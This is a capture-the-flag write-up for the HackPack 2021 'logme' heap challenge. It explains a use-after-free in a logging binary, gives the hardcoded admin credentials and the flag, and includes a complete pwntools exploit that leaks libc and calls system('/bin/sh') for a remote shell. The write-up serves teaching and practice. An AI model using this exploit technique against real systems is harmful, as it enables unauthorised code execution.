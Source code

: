 ```yaml
---
title: HackPack CTF 2021 - logme
categories: pwn
author: sera
layout: post
---
```


# logme
A easy heap pwn challenge from HackPack 2021.

## Challenge
The challenge is a binary that implements a simple logging system. The binary does not have PIE.

The initial menu provides 3 options: logging in as admin, adding a log entry to a log index -- there are none valid on start -- and exit. We can get the admin credentials through simple reversing or everyone's friend `strings`: `administrator:S3CreTB4CkD0or`.

A log entry just consists of a message with a chosen size. The message is allocated on the heap with given size, written to disk, and freed.

Once logged in, you can create or delete logging indexes (basically categories) and dump the contents of a log. The log indexes are implemented as files on disk, but this is not relevant to solving the challenge so I won't go into further detail.

The number of valid indexes is stored in a local variable in `main` and the addressed of each index is stored in a global variable `INDEXES`. Indexes are allocated on the heap; and contain a size of 56. The name of each index is also seperately allocated on the heap with a larger size.

```cpp
struct index {
    void* padding[4];
    char* name;
    void (*printer)(char* name, int index);
}
```

The log dump function is implemented by calling the printer virtual pointer on each index.

## The bug

The vulnerability is that deleteIndex does not actually update the number of valid indexes despite freeing the index. This means that if we allocate a structure with the same size as a log index, it will overlap.

The function that lets a user add a log entry has a controllable allocation size; even though the message is freed after being written we can still use it to overwrite the old index's data.

## Exploitation

This bug can be exploited to call any function with with a controllable first argument. To create a UAF condition, we create two indexes and delete the 2nd. When inserting a message in the first, the tcache will reuse the old index's chunk if the size matches;

We will first leak the address of libc by creating a fake index with a first argument pointing to `puts` on the GOT and a virtual pointer to `puts` in the PLT. This will call `puts(addrof(puts))`.

The use after free will be triggered just by calling dumpIndexes. We can then leverage this libc leak to call `system(/bin/sh)` using the same method as before.

Addendum: I could not get `one_gadget` to work because the stack is not 16-byte aligned.

flag: `flag{B4k3d_1N_PwD_1S_N3v3R_4_Go0D_1D3A}`

## Code
```python
from pwn import *
import random
import string
import sys

r = remote("ctf2021.hackpack.club", 11002)
elf = ELF("./logme")

def admin_login():
    r.sendlineafter("> ", "1")
    r.sendlineafter(": ", "administrator")
    r.sendlineafter(": ", "S3CreTB4CkD0or")

def create_fake_index(fn, arg):
    r.sendlineafter("> ", "2")
    r.sendlineafter(": ", "0")
    r.sendlineafter(": ", "56")
    r.sendlineafter(": ", b"deadbeefbeefcafedeadbeefbeefcafedeadbeef" + p64(arg) + p64(fn))

admin_login()

# Create 2 indexes, free 2nd
r.sendlineafter("> ", "1")
r.sendlineafter(": ", ''.join(random.choices(string.ascii_uppercase + string.digits, k=4)))
r.sendlineafter("> ", "1")
r.sendlineafter(": ", ''.join(random.choices(string.ascii_uppercase + string.digits, k=4)))
r.sendlineafter("> ", "2")
r.sendlineafter(": ", "1")

# Log out
r.sendlineafter("> ", "4")

# Create message
create_fake_index(elf.plt['puts'], elf.got['puts'])

# Trigger uaf
admin_login()

r.sendlineafter("> ", "3")
r.sendlineafter(": ", "1")
leak = u64(r.recvuntil("> ").split(b"\n")[0].ljust(8, b"\x00"))
leak -= 0x080aa0
log.info("libc @ 0x%x" % leak)

r.sendline("4")
create_fake_index(leak + 0x04f550, leak + 0x1b3e1a)

# Trigger uaf
admin_login()

r.sendlineafter("> ", "3")
r.sendlineafter(": ", "1")
r.interactive()
```